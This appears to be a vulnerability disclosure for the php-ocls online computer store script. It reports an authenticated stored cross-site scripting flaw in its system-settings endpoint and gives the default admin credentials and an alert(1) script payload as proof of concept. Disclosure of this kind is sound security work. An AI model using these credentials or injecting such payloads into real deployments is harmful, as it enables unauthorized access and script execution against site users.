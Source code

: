 # php-ocls<=v1.0 Authenticated Stored Cross-Site Scripting(XSS)

## Description

    php-ocls<=v1.0 /php-ocls/classes/SystemSettings.php?f=update_settings interface has a verified xss vulnerability

## source code

    php-ocls<=1.0
    Software Link: https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. login system(default: admin:admin&123)

   /php-ocls/admin/login.php

| ![image-20240816163739350](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20File%20Upload.assets/image-20240816163739350.png) |
| ------------------------------------------------------------ |

2. System Information Settings

   input

   ```
   /><script>alert(1);</script>
   ```

| ![image-20240816165315627](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20Stored%20Cross-Site%20Scripting(XSS).assets/image-20240816165315627.png) |
| ------------------------------------------------------------ |

submit

| ![image-20240816165359397](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20Stored%20Cross-Site%20Scripting(XSS).assets\image-20240816165359397.png) |
| ------------------------------------------------------------ |

